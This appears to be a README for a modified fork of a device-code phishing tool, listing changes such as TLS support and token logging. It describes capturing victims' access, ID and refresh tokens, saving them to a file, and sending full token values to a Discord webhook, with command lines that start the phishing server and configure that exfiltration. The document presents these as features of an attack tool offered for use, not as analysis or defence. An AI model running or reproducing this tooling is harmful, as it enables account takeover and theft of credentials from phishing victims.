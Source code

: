 Original Project: https://github.com/denniskniep/DeviceCodePhishing
=====================================
## Changes Made to Original Code

### 1. Reduced Logging Noise
- Clean and minimal logging by default
- Shows only important events:
  - Server startup information
  - Initial polling message
  - Successful token captures
- All captured tokens are automatically logged to:
  - Console output (minimal format)
  - `tokens/tokens.txt` file (detailed format)
  - Discord webhook (if configured)

### 2. TLS Support
- Added flexible TLS configuration
- Can run in both HTTP and HTTPS modes
- Supports custom certificate paths
```bash
# HTTP Mode
./DeviceCodePhishing server -a 0.0.0.0:8080 -l login

# HTTPS Mode
./DeviceCodePhishing server -a 0.0.0.0:443 -l login --cert /path/to/cert.pem --key /path/to/key.pem
```

### 3. Token Logging
- All captured tokens are automatically saved to `tokens/tokens.txt`
- Includes timestamps and token types
- Format: `time=<timestamp> level=INFO msg="<token_type> for <user_code>: <token>"`
- Captures three token types:
  - Access Token
  - ID Token
  - Refresh Token

### 4. Discord Integration
- Real-time token notifications via Discord webhook
- Sends detailed token information in code blocks
- Format includes:
  - Token type
  - User code
  - Token length
  - Full token value
  - Timestamp
```bash
# Example with Discord webhook
./DeviceCodePhishing server -a 0.0.0.0:443 --discord-webhook "https://discord.com/api/webhooks/your/webhook/url"
```
